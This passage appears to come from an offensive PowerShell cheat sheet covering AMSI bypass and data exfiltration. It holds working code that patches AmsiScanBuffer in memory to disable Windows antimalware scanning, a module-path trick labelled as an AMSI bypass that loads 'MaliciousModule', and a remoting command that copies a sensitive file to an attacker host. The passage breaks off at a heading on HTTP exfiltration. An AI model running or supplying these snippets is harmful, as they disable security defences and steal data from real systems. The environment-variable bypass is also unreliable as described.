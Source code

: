 #### 6.10 Bypass AMSI with Environment Variables&#x20;

* **Set Environment Variable to Bypass AMSI**:

```powershell
[Environment]::SetEnvironmentVariable("PSModulePath", "C:\MaliciousModules", "Process")
Import-Module -Name MaliciousModule
```

#### 6.11 Manipulate Antimalware Scan Interface (AMSI) Functionality&#x20;

* **Patch AMSI DLL in Memory**:

```powershell
$Script = @"
using System;
using System.Runtime.InteropServices;
public class AMSIBypass {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    public static void Patch() {
        IntPtr hModule = LoadLibrary("amsi.dll");
        IntPtr address = GetProcAddress(hModule, "AmsiScanBuffer");
        uint oldProtect;
        VirtualProtect(address, (UIntPtr)4, 0x40, out oldProtect);
        Marshal.WriteByte(address, 0xC3);
        VirtualProtect(address, (UIntPtr)4, oldProtect, out oldProtect);
    }
}
"@
Add-Type -TypeDefinition $Script
[AMSIBypass]::Patch()
```

## 7. Data Exfiltration&#x20;

#### 7.1 Exfiltrate Data via PowerShell Remoting&#x20;

* **Use PowerShell Remoting to Exfiltrate Data**:

```powershell
$Session = New-PSSession -ComputerName <attack_ip> -Credential (Get-Credential)
Copy-Item -Path "C:\SensitiveData.txt" -Destination "C:\Exfil\SensitiveData.txt" -ToSession $Session
Remove-PSSession $Session
```

#### 7.2 Exfiltrate Files via HTTP&#x20;
